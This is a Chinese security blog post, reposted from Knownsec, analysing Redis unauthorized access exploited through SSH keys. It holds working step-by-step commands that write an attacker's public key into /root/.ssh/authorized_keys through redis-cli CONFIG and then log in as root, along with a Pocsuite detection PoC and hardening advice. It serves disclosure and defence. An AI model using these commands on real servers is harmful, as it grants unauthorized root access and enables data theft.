 ```yaml
---
title: Redis 未授权访问配合 SSH key 文件利用分析
tags:
  - redis
  - 漏洞
id: '85'
categories:
  - - 技术
date: 2016-12-30 15:55:21
---
```


_Redis_是一个开源的使用ANSI C语言编写、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API。 Redis 未授权访问的问题是一直存在的问题，知道创宇安全研究团队历史上也做过相关的应急，今日，又出现 Redis 未授权访问配合 SSH key 文件被利用的情况，导致一大批 Redis 服务器被黑，今天我们来简要的分析下。

## **一、漏洞概述**

Redis 默认情况下，会绑定在 0.0.0.0:6379，这样将会将 Redis 服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下可以利用 Redis 的相关方法，可以成功在 Redis 服务器上写入公钥，进而可以使用对应私钥直接登录目标服务器。

### **1、漏洞描述**

Redis 安全模型的观念是: “请不要将 Redis 暴露在公开网络中, 因为让不受信任的客户接触到 Redis 是非常危险的” 。 Redis 作者之所以放弃解决未授权访问导致的不安全性是因为, 99.99% 使用 Redis 的场景都是在沙盒化的环境中, 为了0.01%的可能性增加安全规则的同时也增加了复杂性, 虽然这个问题的并不是不能解决的, 但是这在他的设计哲学中仍是不划算的。 因为其他受信任用户需要使用 Redis 或者因为运维人员的疏忽等原因，部分 Redis 绑定在 0.0.0.0:6379，并且没有开启认证（这是Redis 的默认配置），如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，将会导致 Redis 服务直接暴露在公网上，导致其他用户可以直接在非授权情况下直接访问Redis服务并进行相关操作。 利用 Redis 自身的提供的 config 命令，可以进行写文件操作，攻击者可以成功将自己的公钥写入目标服务器的 /root/.ssh 文件夹的authotrized\_keys 文件中，进而可以直接使用对应的私钥登录目标服务器。

### **2、漏洞影响**

Redis 暴露在公网（即绑定在0.0.0.0:6379，目标IP公网可访问），并且没有开启相关认证和添加相关安全策略情况下可受影响而导致被利用。 通过ZoomEye 的搜索结果显示，有97707在公网可以直接访问的Redis服务。 ![](http://blog.knownsec.com/wp-content/uploads/2015/11/QQ20151111-0@2x.png) 根据 ZoomEye 的探测，全球无验证可直接利用Redis 分布情况如下： ![](http://blog.knownsec.com/wp-content/uploads/2015/11/1.jpg) 全球无验证可直接利用Redis TOP 10国家与地区： ![](http://blog.knownsec.com/wp-content/uploads/2015/11/2.jpg)

### 3、漏洞分析与利用

首先在本地生产公私钥文件：

```
$ssh-keygen –t rsa
```

![](http://blog.knownsec.com/wp-content/uploads/2015/11/ssh-keygen.png) 然后将公钥写入 foo.txt 文件

```
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
```

再连接 Redis 写入文件

```
$ cat foo.txt  redis-cli -h 192.168.1.11 -x set crackit
$ redis-cli -h 192.168.1.11
$ 192.168.1.11:6379> config set dir /root/.ssh/
OK
$ 192.168.1.11:6379> config get dir
1) "dir"
2) "/root/.ssh"
$ 192.168.1.11:6379> config set dbfilename "authorized_keys"
OK
$ 192.168.1.11:6379> save
OK
```

![](http://blog.knownsec.com/wp-content/uploads/2015/11/redis_ssh.png) 这样就可以成功的将自己的公钥写入 /root/.ssh 文件夹的 authotrized\_keys 文件里，然后攻击者直接执行：

```
$ ssh –i  id_rsa root@192.168.1.11
```

即可远程利用自己的私钥登录该服务器。 当然，写入的目录不限于 /root/.ssh 下的authorized\_keys，也可以写入用户目录，不过 Redis 很多以 root 权限运行，所以写入 root 目录下，可以跳过猜用户的步骤。

### 4、Redis 未授权的其他危害与利用

#### a）数据库数据泄露

Redis 作为数据库，保存着各种各样的数据，如果存在未授权访问的情况，将会导致数据的泄露，其中包含保存的用户信息等。 ![](http://blog.knownsec.com/wp-content/uploads/2015/11/redis_user.png)

#### b）代码执行

Redis可以嵌套Lua脚本的特性将会导致代码执行, 危害同其他服务器端的代码执行, 样例如下        一旦攻击者能够在服务器端执行任意代码, 攻击方式将会变得多且复杂, 这是非常危险的. ![](http://blog.knownsec.com/wp-content/uploads/2015/11/redis_lua.png) 通过[Lua代码](https://github.com/evilpacket/redis-sha-crack)攻击者可以调用 redis.sha1hex() 函数，恶意利用 Redis 服务器进行 SHA-1 的破解。

#### c）敏感信息泄露

通过 Redis 的 INFO 命令, 可以查看服务器相关的参数和敏感信息, 为攻击者的后续渗透做铺垫。 ![](http://blog.knownsec.com/wp-content/uploads/2015/11/redis_info.png) 可以看到泄露了很多 Redis 服务器的信息, 有当前 Redis 版本, 内存运行状态, 服务端个数等等敏感信息。

### 5、漏洞验证

可以使用Pocsuite（http://github.com/knownsec/pocsuite）执行以下的代码可以用于测试目标地址是否存在未授权的Redis服务。

```
#!/usr/bin/env python
# -*- coding:utf-8 -*-
 
import socket
import urlparse
from pocsuite.poc import POCBase, Output
from pocsuite.utils import register
 
 
class TestPOC(POCBase):
    vulID = '89339'
    version = '1'
    author = ['Anonymous']
    vulDate = '2015-10-26'
    createDate = '2015-10-26'
    updateDate = '2015-10-26'
    references = ['http://sebug.net/vuldb/ssvid-89339']
    name = 'Redis 未授权访问 PoC'
    appPowerLink = 'http://redis.io/'
    appName = 'Redis'
    appVersion = 'All'
    vulType = 'Unauthorized access'
    desc = '''
        redis 默认不需要密码即可访问，黑客直接访问即可获取数据库中所有信息，造成严重的信息泄露。
    '''
    samples = ['']
 
    def _verify(self):
        result = {}
        payload = '\x2a\x31\x0d\x0a\x24\x34\x0d\x0a\x69\x6e\x66\x6f\x0d\x0a'
        s = socket.socket()
        socket.setdefaulttimeout(10)
        try:
            host = urlparse.urlparse(self.url).netloc
            port = 6379
            s.connect((host, port))
            s.send(payload)
            recvdata = s.recv(1024)
            if recvdata and 'redis_version' in recvdata:
                result['VerifyInfo'] = {}
                result['VerifyInfo']['URL'] = self.url
                result['VerifyInfo']['Port'] = port
        except:
            pass
        s.close()
        return self.parse_attack(result)
 
    def _attack(self):
        return self._verify()
 
    def parse_attack(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output
 
register(TestPOC)
```

## 二、安全建议

1.  配置bind选项，限定可以连接Redis服务器的IP，修改 Redis 的默认端口6379
2.  配置认证，也就是AUTH，设置密码，密码会以明文方式保存在Redis配置文件中
3.  配置rename-command 配置项 “RENAME\_CONFIG”，这样即使存在未授权访问，也能够给攻击者使用config 指令加大难度
4.  好消息是Redis作者表示将会开发”real user”，区分普通用户和admin权限，普通用户将会被禁止运行某些命令，如config

## 三、参考链接

1.  http://www.sebug.net/vuldb/ssvid-89339
2.  http://antirez.com/news/96
3.  http://www.secpulse.com/archives/5366.html
4.  http://www.sebug.net/vuldb/ssvid-89715

  转载自：http://blog.knownsec.com/2015/11/analysis-of-redis-unauthorized-of-expolit/